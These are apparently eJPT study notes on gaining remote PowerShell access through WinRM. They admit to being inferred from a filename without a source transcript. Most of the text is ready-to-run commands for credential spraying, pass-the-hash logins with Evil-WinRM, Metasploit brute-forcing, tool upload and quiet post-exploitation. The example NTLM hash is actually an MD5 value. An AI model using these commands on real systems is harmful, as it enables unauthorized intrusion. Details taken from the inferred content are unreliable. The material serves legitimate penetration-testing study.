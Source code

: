 # 06 - Exploiting WinRM (Windows Remote Management Protocol)

Note: No transcript was provided. The following summary is inferred conservatively from the filename and typical eJPT Windows exploitation workflows for WinRM.

## What the video covers (Introduction / big picture)
- Identifying and exploiting Windows Remote Management (WinRM) to gain a remote PowerShell shell.
- Understanding WinRM endpoints and ports:
  - HTTP: 5985 (default)
  - HTTPS: 5986 (requires SSL/TLS)
- Validating credentials and achieving command execution via WinRM.
- Using Evil-WinRM for an interactive shell, CrackMapExec for quick validation/command execution, and Metasploit for credential testing.
- Practical post-auth actions: enumeration, file transfer, and living-off-the-land via PowerShell.

## Flow (ordered)
1. Discover WinRM exposure with port and service enumeration (5985/5986).
2. Probe the WinRM HTTP endpoint to confirm WS-Management service.
3. Validate credentials against WinRM (single creds and/or lists).
4. Obtain an interactive shell using Evil-WinRM (HTTP or HTTPS).
5. Post-auth enumeration and file transfer inside the remote PowerShell session.
6. Troubleshoot common WinRM connection errors (ports, SSL, privileges).
7. Optional: Use Metasploit modules to brute/validate credentials or execute scripts.

## Tools highlighted
- Nmap: Port/service detection and HTTP auth fingerprinting.
- curl: Quick check of the WinRM WS-Management endpoint.
- CrackMapExec (cme): Credential validation and one-off command execution over WinRM.
- Evil-WinRM: Interactive PowerShell shell via WinRM; upload/download helpers.
- Metasploit: auxiliary/scanner/winrm/winrm_login (and related modules; use search winrm).
- PowerShell (on target): System/domain enumeration commands.

## Typical command walkthrough (detailed, copy-paste friendly)

Set a target environment variable for convenience:
```bash
export TARGET=10.10.10.10
```

1) Scan for WinRM (ports and basic service info)
```bash
nmap -p 5985,5986 -sV -sC -oN nmap_winrm_$TARGET.txt $TARGET
```

Optionally, fingerprint Windows/NTLM hints on the HTTP WinRM endpoint:
```bash
nmap -p5985 --script http-ntlm-info,http-title -oN nmap_winrm_http_$TARGET.txt $TARGET
```

Quick manual probe of the WS-Management endpoint (expect HTTP 401 with WWW-Authenticate):
```bash
curl -i http://$TARGET:5985/wsman
```

2) Validate credentials with CrackMapExec (single credential)
```bash
# Local admin or known user (workgroup)
cme winrm $TARGET -u Administrator -p 'P@ssw0rd!' -x 'whoami /all'

# Domain user (if joined to a domain)
cme winrm $TARGET -d DOMAIN.LOCAL -u jdoe -p 'Summer2025!' -x 'hostname'
```

Validate lists of users/passwords:
```bash
cme winrm $TARGET -u users.txt -p passwords.txt
```

3) Connect with Evil-WinRM (interactive shell)
```bash
# Workgroup/local account over HTTP (5985)
evil-winrm -i $TARGET -u Administrator -p 'P@ssw0rd!'

# Domain account (note: use -d for domain)
evil-winrm -i $TARGET -u jdoe -p 'Summer2025!' -d DOMAIN.LOCAL

# HTTPS listener (5986)
evil-winrm -i $TARGET -u Administrator -p 'P@ssw0rd!' -S -P 5986
```

Pass-the-Hash (if you have the NTLM hash; Evil-WinRM supports NTLM auth):
```bash
# LM:NT format accepted; LM can be aad3b435b51404eeaad3b435b51404ee if unknown
evil-winrm -i $TARGET -u Administrator -H 'aad3b435b51404eeaad3b435b51404ee:5f4dcc3b5aa765d61d8327deb882cf99'
```

4) Inside Evil-WinRM: quick recon and file ops
```powershell
whoami /all
hostname
ipconfig /all

# Local user/group checks
net user
net localgroup administrators

# Check users and home dirs
Get-ChildItem C:\Users

# Environment and system
$env:COMPUTERNAME
$PSVersionTable
systeminfo

# File transfers
upload /home/kali/tools/winPEASx64.exe C:\Windows\Temp\winPEASx64.exe
download C:\Windows\System32\drivers\etc\hosts

# Explore Evil-WinRM helpers
menu
help
```

5) Metasploit alternative (credential testing and execution)
```bash
msfconsole
```
```text
msf6 > search winrm
msf6 > use auxiliary/scanner/winrm/winrm_login
msf6 auxiliary(scanner/winrm/winrm_login) > set RHOSTS $TARGET
msf6 auxiliary(scanner/winrm/winrm_login) > set RPORT 5985
msf6 auxiliary(scanner/winrm/winrm_login) > set USERNAME Administrator
msf6 auxiliary(scanner/winrm/winrm_login) > set PASSWORD P@ssw0rd!
# For HTTPS endpoint:
# msf6 ... > set RPORT 5986
# msf6 ... > set SSL true
msf6 auxiliary(scanner/winrm/winrm_login) > run
```
If you want scripted execution via WinRM, use search winrm and select an appropriate module (names can vary by version, e.g., exploit/windows/winrm/winrm_script_exec). Configure RHOSTS/USERNAME/PASSWORD and run.

6) Installation notes (Kali)
```bash
# Evil-WinRM (Kali)
sudo apt update && sudo apt install -y evil-winrm

# CrackMapExec (if missing)
sudo apt install -y crackmapexec
```

## Practical tips
- Ports: Try 5985 first (HTTP). If closed but 5986 is open, use Evil-WinRM with -S -P 5986.
- Auth types: Workgroup targets typically use NTLM; domain targets may use NTLM or Kerberos. For domain users, supply -d DOMAIN.
- Permissions: Successful auth doesn’t always imply remote command execution. Users generally need to be Administrators or be in the “Remote Management Users” group to run commands via WinRM.
- Errors:
  - Access is denied: Credentials valid but insufficient privilege for WinRM; try another user or escalate membership.
  - Connection refused/timeout: Firewall or service disabled. Verify with nmap and curl. Consider other remote exec vectors (SMB, WMI) if WinRM isn’t available.
  - SSL issues on 5986: Use Evil-WinRM -S and accept self-signed certs; set the correct port with -P 5986.
- Post-auth: Use built-in Windows commands and PowerShell for low-noise enumeration before bringing external tools; then upload what you need to C:\Windows\Temp or another writable path.
- OPSEC: Prefer living-off-the-land (net, whoami, Get-*) and avoid noisy tooling unless necessary.

## Minimal cheat sheet (one-screen flow)
```bash
# 1) Discover WinRM
export TARGET=10.10.10.10
nmap -p 5985,5986 -sV -sC -oN nmap_winrm_$TARGET.txt $TARGET
curl -i http://$TARGET:5985/wsman

# 2) Validate creds
cme winrm $TARGET -u Administrator -p 'P@ssw0rd!' -x 'whoami /all'
# or domain
cme winrm $TARGET -d DOMAIN.LOCAL -u jdoe -p 'Summer2025!' -x 'hostname'

# 3) Get a shell
evil-winrm -i $TARGET -u Administrator -p 'P@ssw0rd!'            # HTTP 5985
evil-winrm -i $TARGET -u Administrator -p 'P@ssw0rd!' -S -P 5986  # HTTPS 5986
# Pass-the-Hash (if available)
evil-winrm -i $TARGET -u Administrator -H 'LMHASH:NTHASH'

# 4) Inside shell
whoami /all
hostname && ipconfig /all
net user
net localgroup administrators
upload /home/kali/file C:\Windows\Temp\file
download C:\path\to\target\file

# Troubleshoot: denied = insufficient rights; timeout/refused = firewall/service; 5986 needs -S -P 5986
```

## Summary
- WinRM (5985/5986) provides remote PowerShell access; it’s a reliable post-credential vector on many Windows servers and domain-joined hosts.
- Enumerate ports, verify the WS-Management endpoint, then validate credentials with CrackMapExec or Metasploit.
- Use Evil-WinRM for an interactive shell (password or NTLM hash), choosing HTTP or HTTPS as exposed.
- Once in, enumerate quietly, transfer needed tools, and proceed with privilege escalation or lateral movement.
- Handle common issues by checking ports, SSL usage, and required group memberships for remote management.